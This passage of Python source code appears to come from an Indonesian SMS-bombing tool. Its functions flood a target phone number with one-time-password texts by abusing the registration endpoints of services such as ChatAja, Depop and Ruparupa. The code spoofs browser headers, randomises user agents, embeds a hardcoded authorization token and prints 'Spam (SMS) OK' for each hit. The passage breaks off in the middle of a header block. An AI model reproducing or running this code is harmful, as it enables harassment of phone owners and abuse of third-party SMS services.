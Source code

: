       x = ru.post("https://api.sooplai.com/customer/register/otp/request", data=dat, headers=hd)
    if 'error' in x:
     print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Sooplai{kun} Gagal abang jago")
    else:
     print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Sooplai{kan} OK")
 def chataja(nom):
     data = json.dumps({"user":{"app_id":"kiwari-prod","phone_number":"62"+nom}})
     a = ru.post('https://api.chataja.co.id/api/v2/auth_nonce',data=data,headers={"Accept": "application/json, text/plain, */*","Accept-Language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7","Connection": "keep-alive","Content-Length": "65","Content-Type": "application/json;charset=UTF-8","Host": "api.chataja.co.id","Origin": "https://web.chataja.co.id","Referer": "https://web.chataja.co.id/","Sec-Fetch-Dest": "empty","Sec-Fetch-Mode": "cors","Sec-Fetch-Site": "same-site","User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36"}).text;b = json.loads(a)["data"]
     if b:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}ChatAja{kan} OK")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}ChatAja{kun} Gagal abang jago")
 def depop(nom):
     hd = {'Host':'webapi.depop.com','content-length':'49','accept':'application/json, text/plain, */*','origin':'https://signup.depop.com','save-data':'on','user-agent':'Mozilla/5.0 (Linux; Android 9; vivo 1902) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.136 Mobile Safari/537.36','content-type':'application/json'}
     dat = {'phone_number':nom,'country_code':'ID'}
     datjs = json.dumps(dat)
     for x in range(3):
        y = ru.put("https://webapi.depop.com/api/auth/v1/verify/phone",headers=hd,data=datjs)
     if 'error' in y.text:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Depop{kun} Gagal abang jago")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Depop{kan} OK")
 def ruparupa(nom):
     url = 'https://wapi.ruparupa.com/auth/check-otp-auth'
     url2 = 'https://wapi.ruparupa.com/auth/generate-otp'
     hdurl = {
'accept': 'application/json',
'authorization': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiODZhM2Q0ZmEtZDE3Mi00NDkwLTllOTAtN2MyM2UyZjA1MDA0IiwiaWF0IjoxNTk3NjY3MTgzLCJpc3MiOiJ3YXBpLnJ1cGFydXBhIn0.QBFVwucPwKlxWc43abnzEgjbNFOMHXMsXd3EaYk4tyU',
'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7&',
'content-length': '88',
'content-type': 'application/json',                                                                                                          'origin': 'https://m.ruparupa.com',
'referer': 'https://m.ruparupa.com/my-account',
'sec-fetch-mode': 'cors',
'sec-fetch-site': 'same-site',
'user-agent': ua.random ,
'user-platform': 'mobile',
'x-company-name': 'odi',                                                                                                                     'x-frontend-type': 'mobile',
}
     hdurl2 = {
'accept': 'application/json',
'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7&',
'authorization': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1dWlkIjoiODZhM2Q0ZmEtZDE3Mi00NDkwLTllOTAtN2MyM2UyZjA1MDA0IiwiaWF0IjoxNTk3NjY3MTgzLCJpc3MiOiJ3YXBpLnJ1cGFydXBhIn0.QBFVwucPwKlxWc43abnzEgjbNFOMHXMsXd3EaYk4tyU',
'content-length': '103',
'content-type': 'application/json',
'origin': 'https://ruparupa.com',
'referer': 'https://ruparupa.com/verification?page=otp-choices',
'sec-fetch-mode': 'cors',
'sec-fetch-site': 'same-site',
'user-agent': ua.random ,